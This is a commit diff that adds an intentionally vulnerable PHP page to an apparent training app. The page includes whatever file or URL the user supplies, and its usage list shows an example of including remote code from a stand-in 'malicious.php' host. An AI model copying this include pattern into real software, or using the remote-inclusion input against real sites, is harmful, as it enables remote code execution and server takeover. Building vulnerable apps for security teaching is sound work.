
After one commit to Andy9542/vulnerable-app, a PHP site: page /rfi_vulnerable.php in a window 1280 px wide. The commit adds this page. Shown: the top 500 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Fixation new changes

```diff
--- /dev/null
+++ b/public/rfi_vulnerable.php
@@ -0,0 +1,72 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>RFI Vulnerable Page</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            line-height: 1.6;
+            margin: 0;
+            padding: 20px;
+        }
+        nav {
+            background-color: #f4f4f4;
+            padding: 10px;
+            margin-bottom: 20px;
+        }
+        nav a {
+            margin-right: 10px;
+            text-decoration: none;
+            color: #333;
+        }
+        .warning {
+            background-color: #ffcccc;
+            border: 1px solid #ff0000;
+            padding: 10px;
+            margin-bottom: 20px;
+        }
+    </style>
+</head>
+<body>
+    <nav>
+        <a href="index.php">Home</a>
+        <a href="rfi_vulnerable.php">RFI Vulnerable Page</a>
+        <a href="login.php">Login</a>
+        <a href="admin/dashboard.php">Admin Dashboard</a>
+    </nav>
+
+    <div class="warning">
+        <strong>Warning:</strong> This page is intentionally vulnerable to Remote File Inclusion (RFI) attacks. Use only for educational purposes in a controlled environment.
+    </div>
+
+    <h1>RFI Vulnerable Page</h1>
+
+    <p>Enter a page to include:</p>
+    <form method="GET">
+        <input type="text" name="page" placeholder="Enter URL or file path">
+        <input type="submit" value="Include">
+    </form>
+
+    <div>
+        <?php
+        // Внимание: Этот код намеренно уязвим! Только для образовательных целей.
+        if (isset($_GET['page'])) {
+            echo "<h2>Including: " . htmlspecialchars($_GET['page']) . "</h2>";
+            include($_GET['page']);
+        } else {
+            echo "<p>No page specified. Use the form above to include a page.</p>";
+        }
+        ?>
+    </div>
+
+    <div>
+        <h2>Example Usage:</h2>
+        <ul>
+            <li>Local file: <code>?page=welcome.php</code></li>
+            <li>Remote file: <code>?page=http://remote-scripts.local:8080/malicious.php</code></li>
+        </ul>
+    </div>
+</body>
+</html>
```
Also changed, not shown: public/view.php (+28 -6 lines).
